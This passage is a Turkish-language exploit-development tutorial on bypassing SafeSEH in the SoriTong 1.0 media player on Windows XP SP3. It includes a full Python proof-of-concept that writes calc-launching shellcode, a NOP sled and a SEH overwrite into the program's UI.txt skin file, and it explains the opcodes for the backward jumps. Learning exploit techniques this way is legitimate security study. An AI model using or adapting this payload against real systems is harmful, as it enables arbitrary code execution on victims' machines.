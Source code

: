 `0x12D694` adresinde bizim nextSEH adresimiz varmış. Aslında yukardaki resimde stack durumuna bakacak olursak eğer en başta yazmış olduğumuz `ebp+30`, `ebp-0xc`, `ebp-0x4` işlemlerinin hepsinin `0x12FD64` adresini gösterdiğini görebiliriz. :)

```python
...
SEH = b"\x0b\x0b\x27\x00" # call dword ptr ss:[ebp+30]
...
```

Ama herşey henüz bitmiş değil . Çünkü `SEH` üzerine yazmış olduğumuz adres `null` byte içermekte. O zaman bizim ileriye doğru değil geriye doğru jump işlemi yapmamız lazım. Shellcode'u da normal buffer içerisinde bir yere yazmamız gerekecek

```python
# Soritong 1.0 SafeSEH Bypass
# Tested :  Windows XP SP3 X86

calc = (b"\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1"+
b"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30"+
b"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa"+
b"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96"+
b"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b"+
b"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a"+
b"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83"+
b"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98"+
b"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61"+
b"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05"+
b"\x7f\xe8\x7b\xca")

size = 584
NOP = b"\x90"*100
nextSEH = b"\xCC"*4
SEH = b"\x0b\x0b\x27\x00" # call dword ptr ss:[ebp+30]

exploit = NOP + calc + NOP*(size-len(NOP+calc)) + nextSEH + SEH

# File path
file = "C:\Program Files\SoriTong\Skin\Default\UI.txt"
# File Create
f = open(file, "wb")
f.write(exploit)
f.close()
```

Şöyle birşeyler olacak . Şimdi benim ne kadar geriye sıçramam gerektiğini bulmam lazım. 100 byte `NOP`'dan sonra shellcode yazdığım için yaklaşık 484 byte geriye sıçrayabilirim gibi düşünebiliriz. Ancak biz işimizi sağlama alalım ve düz 500 byte geriye sıçrayalım nasıl olsa shellcode'dan önce `NOP` karakterlerimiz var.

O zaman benim `jmp -500` işlemini gerçekleştiren opcodelara ihtiyacım var ki o da `E9 07 FE FF FF` yapmakta. Ancak ne yazık ki 4 byte değil 5 byte uzunluğunda. Çözmemiz gereken bir problem daha çıktı (: Ama hemen pes etmek yok zaten bunu çözmekte de bişey yok (biraz kafiyeli oldu sanki). Eğer nextSEH adresinden önceye `jmp -500` opcodelarını yazarsak, nextSEH adresine de ufak bir geriye sıçrama yazarız ki , `jmp -500`'ün uzunluğu 5 byte olduğu için 5 byte lık bir geriye sıçrayış yeterli olacaktır. (`jmp -5` opcode karşılığı `EB F9`)
